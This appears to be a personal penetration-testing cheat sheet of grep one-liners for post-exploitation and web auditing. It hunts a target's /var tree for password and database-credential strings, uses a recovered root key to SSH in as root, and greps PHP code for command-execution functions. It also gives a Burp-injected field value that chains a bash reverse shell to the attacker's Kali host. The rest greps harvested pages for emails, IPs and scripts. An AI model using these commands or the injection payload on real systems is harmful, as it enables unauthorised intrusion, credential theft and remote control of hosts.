 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Grep'n for passwords

```bash - target
cd /var/
```

```bash - target
grep -rli "db_login" * 2>/dev/null
```

```bash - target
grep -rli "db_user" * 2>/dev/null
```

```bash - target
grep -rli "db_password" * 2>/dev/null
```

```bash - target
grep -rli "DBUSER" * 2>/dev/null
```

```bash - target
grep -rli "DBPASS" * 2>/dev/null
```

```bash - target
grep -rli "password" * 2>/dev/null
```

```bash - target
grep -rli "pass" * 2>/dev/null
```

```bash - target
grep -rli "pwd" * 2>/dev/null
```

#### Grep for root ssh logins are allowed
```bash - target
grep PermitRootLogin /etc/ssh/sshd_config
```

![[Pasted image 20211230152209.png]]

Copy the key value to kali box, then change permissions:

```bash - kali
chmod 600 root_key
```

Use the key to SSH to the target as the root account:

```bash - kali
ssh -i root_key root@$TARGET
```


#### Grep'n for PHP vulnerabilities
```bash - kali
grep -R -e system -e exec -e passthru -e '`' -e popen -e proc_open * | more
```

![[Pasted image 20221115145905.png]]

Here we see some comments, but the middle entry for logs.php is a legit finding.

We would just go to the logs.php page, capture the post request in Burp, and modify the request to:

```bash - burp
delim=comma;bash -c 'bash -i >%26 /dev/tcp/$KALI/443 0>%261'
```

#### Grep'n for HTML comments from HTTrack
```bash - kali
grep -r '<!--.*-->' ./ | grep -v "HTTrack" | more
```

#### Grep'n for emails from HTTrack
```bash - kali
grep -Eiorh '([[:alnum:]_.-]+@[[:alnum:]_.-]+?\.[[:alpha:].]{2,6})' "$@" * | sort | uniq
```

```
https://github.com/dustyfresh/PHP-vulnerability-audit-cheatsheet
```

#### Grep'n for IPs
```bash - kali
grep -E -o "([0-9]{1,3}[\.]){3}[0-9]{1,3}"
```

#### Grep'n for details in access logs
```bash - kali
grep -o '[^/]*\.js' access_log.txt | sort -u 
```

